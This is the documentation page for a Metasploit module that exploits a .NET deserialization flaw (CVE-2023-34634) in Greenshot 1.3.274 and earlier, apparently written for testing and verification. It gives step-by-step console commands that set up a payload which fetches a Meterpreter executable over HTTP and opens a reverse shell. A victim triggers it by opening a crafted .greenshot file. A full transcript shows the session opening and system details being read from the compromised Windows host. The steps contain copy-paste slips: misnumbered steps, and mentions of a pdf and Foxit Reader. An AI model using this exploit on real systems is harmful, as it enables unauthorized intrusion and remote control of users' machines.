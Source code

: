 ## Description

There exists a .NET deserialization vulnerability in Greenshot version 1.3.274
and below.  The deserialization allows the execution of commands when a user opens
a Greenshot file.  The commands execute under the same permissions as the Greenshot
service.  Typically this is as the logged in user.

## Vulnerable Application

[Greenshot v1.3.274](https://github.com/greenshot/greenshot/releases/download/v1.3.274/Greenshot-INSTALLER-1.3.274-UNSTABLE.exe) and earlier

## Verification Steps

1. `./msfconsole`
2. `set payload cmd/windows/http/x64/meterpreter/reverse_tcp`
3. `set FETCH_SRVHOST <callback ip>`
4. `set FETCH_WRITABLE_DIR %TEMP%`
4. `set LHOST <callback ip>`
5. `set DisablePayloadhandler false`
6. `set wfsdelay 600`
7. `run`
9. Copy pdf over to target, ensuring that the `.greenshot` extension is preserved and open it.

Note: The target machine running Foxit Reader will need network access to the system hosting the exe.

## Scenarios

### Greenshot v1.3.274 running on Windows 10 Pro x64 2004

```
msf > use exploit/windows/fileformat/greenshot_deserialize_cve_2023_34634
[*] No payload configured, defaulting to cmd/windows/http/x64/meterpreter/reverse_tcp
msf exploit(windows/fileformat/greenshot_deserialize_cve_2023_34634) > set payload cmd/windows/http/x64/meterpreter/reverse_tcp
payload => cmd/windows/http/x64/meterpreter/reverse_tcp
msf exploit(windows/fileformat/greenshot_deserialize_cve_2023_34634) > set FETCH_SRVHOST 10.5.135.201
FETCH_SRVHOST => 10.5.135.201
msf exploit(windows/fileformat/greenshot_deserialize_cve_2023_34634) > set LHOST 10.5.135.201
LHOST => 10.5.135.201
msf exploit(windows/fileformat/greenshot_deserialize_cve_2023_34634) > set FETCH_WRITABLE_DIR %TEMP%
FETCH_WRITABLE_DIR => %TEMP%
msf exploit(windows/fileformat/greenshot_deserialize_cve_2023_34634) > set DisablePayloadHandler false
DisablePayloadHandler => false
msf exploit(windows/fileformat/greenshot_deserialize_cve_2023_34634) > set wfsdelay 600
wfsdelay => 600
msf exploit(windows/fileformat/greenshot_deserialize_cve_2023_34634) > show options

Module options (exploit/windows/fileformat/greenshot_deserialize_cve_2023_34634):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   FILENAME                   no        The file name.
   PNG_FILE                   no        PNG file to use


Payload options (cmd/windows/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   EXITFUNC            process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, TFTP, CERTUTIL)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      tsuAqVhW         no        Name to use on remote system when storing payload; cannot contain spaces.
   FETCH_SRVHOST       10.5.135.201     yes       Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  %TEMP%           yes       Remote writable dir to store payload; cannot contain spaces.
   LHOST               10.5.135.201     yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows Command



View the full module info with the info, or info -d command.

msf exploit(windows/fileformat/greenshot_deserialize_cve_2023_34634) > run

[*] Started reverse TCP handler on 10.5.135.201:4444 
[+] QsMBQrLmW.greenshot stored at /home/tmoose/.msf4/local/QsMBQrLmW.greenshot
[*] Sending stage (200774 bytes) to 10.5.132.130
[*] Meterpreter session 1 opened (10.5.135.201:4444 -> 10.5.132.130:50221) at 2023-08-03 18:27:21 -0500

meterpreter > sysinfo
Computer        : DESKTOP-KAI0M8D
OS              : Windows 10 (10.0 Build 19041).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: DESKTOP-KAI0M8D\msfuser
meterpreter > 

```
